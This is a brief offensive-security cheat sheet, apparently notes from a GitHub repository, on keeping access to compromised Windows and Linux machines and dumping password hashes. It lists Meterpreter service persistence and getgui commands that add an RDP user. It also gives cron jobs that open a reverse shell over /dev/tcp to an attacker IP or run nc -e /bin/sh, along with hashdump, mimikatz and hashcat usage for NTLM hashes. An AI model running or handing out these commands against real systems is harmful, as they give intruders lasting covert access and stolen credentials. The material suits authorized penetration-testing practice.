 ## Windows

### Via Services

Meterpreter:

    > exploit/windows/local/persistence_service

### Via RDP

Meterpreter:

    > run getgui -e -u <username> -p <password>

Then on the attacker machine:

    > xfreerdp /u:<username> /p:<password> /v:<targetIP>

## Linux

### SSH 

Copy the id_rsa file to access the target machine user without typing password.

or:

- https://cyberkhalid.github.io/posts/ssh-persist/
 
### Cronjobs

    > ps -eaf

If cron service is running:

reverse shell:

    > echo "*/10 * * * * 0<&196;exec 196<>/dev/tcp/<attackerIP>/<port>; sh <&196 >&196 2>&196
" > cron

or bind shell:

    > echo "*/10 * * * * nc <attackerIP> <port> -e /bin/sh" > cron

    > crontab -i cron

    > crontab -l

# Dumping & Cracking Hash

## Windows

Use hashdump from meterpreter session, or mimikatz.

In hashcat for NTLM hash use mode 1000.

Hash is a second part of the string, after colon.
